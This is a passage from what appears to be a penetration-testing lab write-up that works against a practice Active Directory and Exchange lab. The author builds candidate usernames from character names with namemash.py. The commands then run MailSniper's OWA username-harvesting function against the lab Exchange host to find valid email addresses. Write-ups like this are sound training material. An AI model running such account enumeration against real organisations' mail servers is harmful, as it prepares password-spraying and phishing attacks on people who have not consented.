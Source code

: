 And added the new users from the exchange module too

```bash
cat ../../extensions/exchange/data/config.json | grep -E "firstname|surname" | cut -d ':' -f 2 | tr -d '"' | tr -d ',' | paste - - | tr -d '\t' | awk '{$1=$1};1' >> chars.txt
```

Now we have a list of character names, we need them in a suitable format, thats where namemash comes back in.

I used PowerShell to get the `namemash.py` file and then WSL to run it against the list i made

```powershell
wget https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py -OutFile namemash.py   
```

For the sake of running the character list through namemash I will remove the following names (as they have  `-` as the surname) and save the file as `chars2.txt` to preserve the original list.

```
missandei -
drogon -
```

From WSL I ran the following:

```bash
python3 namemash.py chars2.txt > mashed.txt
```

Giving me a nice list of potential email address formats:

```
---tr---
v.targaryen
t.viserys
viserys
targaryen
khaldrogo
drogokhal
khal.drogo
drogo.khal
drogok
kdrogo
dkhal
k.drogo
d.khal
---tr---
```

Now I can use the new `mashed.txt` with mailsniper to test the exchange usernames

```powershell
Invoke-UsernameHarvestOWA -UserList .\mashed.txt -ExchHostname 192.168.56.21 -Domain sevenkingdoms.local -OutFile .\Valid-Email.txt
```

{% include figure popup=true image_path="/assets/images/Exchange-Enumeration-Images/valid-emails.png" alt="valid-emails"%}{: .align-center}
